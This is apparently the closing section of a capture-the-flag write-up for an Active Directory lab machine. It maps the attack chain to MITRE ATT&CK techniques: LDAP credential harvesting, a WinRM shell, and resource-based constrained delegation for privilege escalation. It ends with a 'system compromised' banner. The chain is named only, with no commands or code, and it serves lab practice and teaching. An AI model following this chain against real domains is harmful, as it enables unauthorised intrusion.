

---

## >_ MITRE ATT&CK MAPPING

| Tactic | Technique ID | Technique Name | Implementation |
|--------|--------------|----------------|----------------|
| **Reconnaissance** | T1595.002 | Active Scanning | Rustscan + Nmap enumeration |
| **Resource Development** | T1587.001 | Develop Capabilities: Malware | Fake computer account creation |
| **Initial Access** | T1078.002 | Valid Accounts: Domain | LDAP credentials from binary |
| **Credential Access** | T1552.001 | Unsecured Credentials | Password in LDAP info attribute |
| **Discovery** | T1087.002 | Account Discovery: Domain | BloodHound + LDAP enumeration |
| **Lateral Movement** | T1021.006 | Remote Services: WinRM | Evil-WinRM shell access |
| **Privilege Escalation** | T1134.001 | Token Impersonation | RBCD with S4U2Self/S4U2Proxy |
| **Defense Evasion** | T1550.003 | Use Alternate Auth Material | Kerberos ticket impersonation |

---

```
╔══════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                      ║
║   ░█▀▀░█░█░█▀▀░▀█▀░█▀▀░█▄█░░░█▀▀░█▀█░█▄█░█▀█░█▀▄░█▀█░█▄█░▀█▀░█▀▀░█▀▀░█▀▄            ║
║   ░▀▀█░░█░░▀▀█░░█░░█▀▀░█░█░░░█░░░█░█░█░█░█▀▀░█▀▄░█░█░█░█░░█░░▀▀█░█▀▀░█░█            ║
║   ░▀▀▀░░▀░░▀▀▀░░▀░░▀▀▀░▀░▀░░░▀▀▀░▀▀▀░▀░▀░▀░░░▀░▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀░            ║
║                                                                                      ║
║   WRITEUP AUTHOR: Netrunner                                                          ║
║   COMPLETION DATE: 2025-12-02                                                        ║
║   TIME TO PWNED: ~1 hour                                                             ║
║                                                                                      ║
╚══════════════════════════════════════════════════════════════════════════════════════╝
```

---

<div align="center">


</div>
